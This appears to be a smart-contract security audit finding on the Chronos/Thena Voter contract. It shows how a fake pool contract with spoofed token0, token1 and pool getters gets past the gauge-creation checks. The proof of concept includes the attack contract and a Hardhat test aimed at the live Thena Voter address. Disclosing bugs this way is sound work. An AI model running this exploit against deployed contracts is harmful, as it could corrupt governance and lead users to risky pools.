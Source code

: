 ## Impact
According to `Chronos` & `Thena` approach, `Gauge` creation is public, any user has the right to create a `Gauge` for pools and tokens that are allowed.

For example, gauge type 0 - UniV2 pairs. type 1 - some specific CL solutions such as `IchiVault` or `DysonVault` 

In this case, the authorized address (governance) has the ability to create `Gauge` for any type of pool

The bug is that a user can bypass the pool validation checks by providing a malicious contract with fake parameters used in the checks. 

This allows the user ***to create a Gauge with a malicious pool address*** that is not a pool of any of the allowed factories. To be sure, the maliciousness depends on the validations and functionality of the FE, how it pulls up these pools, what information it provides, whether it will allow users to add LPs to these pools, etc.

**Chronos does not have any tokens that are whitelisted, which does not allow ordinary users to build any gauges** (Should recheck)

## Proof of Concept
The user can provide the address under `_pool` of his own malicious contract, and also `gaugeType = 1`
```js
528:    function _createGauge(address _pool, uint256 _gaugeType) internal returns (address _gauge, address _internal_bribe, address _external_bribe) {
        require(_gaugeType < _factories.length, "gaugetype");
        require(gauges[_pool] == address(0x0), "!exists");
        require(_pool.code.length > 0, "!contract");
        ...
        bool isPair;
        address _factory = _factories[_gaugeType];
        address _gaugeFactory = _gaugeFactories[_gaugeType];

        ...
        address tokenA = address(0);
        address tokenB = address(0);
        (tokenA) = IPairInfo(_pool).token0(); // @audit - the malicious contract returns a corrupted token0
        (tokenB) = IPairInfo(_pool).token1();// @audit - malicious contract returns a corrupted token1

        // for future implementation add isPair() in factory
        if(_gaugeType == 0){
            isPair = IPairFactory(_factory).isPair(_pool);
        } 
        if(_gaugeType == 1) { // @audit by specifying type 1, the user is taken to the checks for compliance of the pool with the expected one for type 1 (CL)
            address _clPool = IPairInfo(_pool).pool(); // @audit malicious contract returns a fake pool address
            address _pool_factory = IPairInfo(_clPool).factory(); // @audit the malicious front pool also returns the expected factory to pass verification
            require(_pool_factory == _factory, 'wrong tokens');    
555:        isPair = true;
            clPools.push(_pool);

        } else {
            isPair = false;
        }

        // gov can create for any pool, even non-Chronos pairs
        if (!(governance == msg.sender)) { 
            require(isPair, "!_pool"); // @audit is true because L:555 indicates that this is indeed the expected pair
            require(isWhitelisted[tokenA] && isWhitelisted[tokenB], "!whitelisted"); // @audit passes because the malicious contract provides whitelisted token addresses
            require(tokenA != address(0) && tokenB != address(0), "!pair.tokens");
        }
        ...
    }
```
The test was conducted for Thena since they already have validated tokens, which allows them to pass all the checks,
* The address of the user from whom everything is done is a random address where there is a balance for deploying contracts and executing the code


Example malicious pool:
```js
contract Attack {
    address public token0;
    address public token1;
    address public pool;
    string public symbol = "Error";

    function set(address t0_, address t1_, address pool_) external {
        token0 = t0_;
        token1 = t1_;
        pool = pool_;
    }
}

```

Test:
```js
    const address = "0x04001c5359ec93b3368af1c8f0d5510506ece41b"; // @audit random user address who have BNB balance
    const impersonatedSigner = await ethers.getImpersonatedSigner(address);

    let Attack = await ethers.getContractFactory("Attack");

    let VoterV3 = await ethers.getContractFactory("VoterV3");

    let voter = VoterV3.attach("0x3A1D0952809F4948d15EBCe8d345962A282C4fCb"); // @audit actual Voter Thena contract

    let attack = await Attack.connect(impersonatedSigner).deploy();

    await attack.connect(impersonatedSigner).set(
      "0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d", // @audit whitelisted USDC token
      "0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56", // @audit whitelisted BUSDC token
      "0x49696667dAc8b3d331B55df27da5F1DB36B94189" // @audit right pool with right factory
    );

    let result = await voter
      .connect(impersonatedSigner)
      .createGauge(attack.address, 1);
    console.log("result", result);

    console.log("Created gauge:", await voter.gauges(attack.address));
```
